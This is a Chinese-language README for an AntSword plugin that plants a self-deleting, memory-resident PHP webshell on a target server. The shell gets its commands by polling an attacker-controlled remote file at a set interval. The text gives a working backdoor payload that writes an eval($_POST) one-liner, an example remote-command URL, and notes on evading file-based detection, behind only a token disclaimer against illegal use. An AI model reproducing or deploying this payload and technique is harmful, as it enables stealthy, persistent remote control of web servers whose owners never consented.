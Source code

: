 # inject_und3ad

中国蚁剑（Antsword）插件

向目标服务器植入不死php webshell

## 演示

* 权限维持

![inject.png](./img/inject.png)

点击左上角远程文件按钮，输入远程控制文件地址以及轮询时间（以秒为单位），点击确定即可（分隔符为###）

For example : http://192.168.134.128/1.txt###60   每60秒轮询一次http://192.168.134.128/1.txt里的内容

文件内容类似于 `file_put_contents('./1.php','<?php @eval($_POST[ph4ntom]); ?>')`;  (密码可自定义，路径也可自定义，此文件内容旨在每隔一段时间写入一个小马)

上述旨在利用php特性植入不死webshell，在执行完成后，此webshell会基于用户设置的轮询时间向用户设置的远程文件地址发送请求，用户只需在远程地址的txt文档中输入想要执行的命令即可
可。

此webshell在执行后会自身删除，驻留内存之中，无文件残留

清除办法包括重启web服务等


## 注意事项

  此插件仅支持php环境
  
  在远程文件上如果不打算执行命令，请在远程文件中写入一个空格，否则此webshell会退出。
  
  使用者不得用于非法用途
  
## Todo

  单独记录每一个shell所设置的不死马远程地址，方便使用者使用（这是我为何在下方留了一大块空白的原因）
 

